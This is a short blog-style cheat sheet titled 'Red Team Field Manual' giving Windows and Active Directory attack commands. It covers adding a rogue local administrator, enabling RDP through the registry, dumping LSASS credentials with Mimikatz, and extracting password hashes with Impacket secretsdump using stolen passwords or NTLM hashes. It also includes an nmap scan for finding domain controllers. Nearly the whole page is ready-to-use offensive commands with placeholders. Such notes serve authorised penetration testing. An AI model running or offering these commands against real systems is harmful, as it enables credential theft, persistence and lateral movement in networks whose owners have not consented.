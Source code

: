 ```yaml
---
layout: blog
title: Red Team Field Manual
tags: 
comments: true
date: 2022-12-10
---
```


# Red Team Field Manual
<br />
### Create Local User And Add To Administrators Group
    net user <Username> <Password> /add>
    
    net localgroup Administrators <Username> /add   
  
### List Users In Active Directory

    net users /domain

### Enable RDP From Regedit

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

### Disable RDP From Regedit

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
    
### Lsass Dump via Mimikatz

    privilege::debug
    sekurlsa::minidump file.DMP (If there is a DMP file)
    sekurlsa::logonpasswords full
    
### Impacket secretsdump - DUMP Local User Hashes via Domain Creds
 
    python3 secretsdump.py <Domain>/<Domain Username>:<Password>@<IP> #Enter with Domain Creds
    
### Impacket secretsdump - DUMP Local User Hashes via Domain NTLM Hash

    python3 secretsdump.py <Domain>/<Domain Username>@<IP> -hashes <NTLM Hash> #Enter with NTLM Hash
    
### Impacket secretsdump - DUMP Local User Hashes via Local User Creds
    
    python3 secretsdump.py <Computer_Hostname>/<Local Username>:<Password>@<IP> #Enter with Local Creds
    
### Impacket secretsdump - DUMP Local User Hashes via Local User Hash

    python3 secretsdump.py <Computer_Hostname>/<Local Username>@<IP> -hashes <NTLM Hash> #Enter with NTLM Hash

### Find Domain Controller In BlackBox Testing

    nmap -p389,636 --open -iL <IP_List_File>  #389(LDAP) / 636(LDAP-SSL)
    
    
    
    

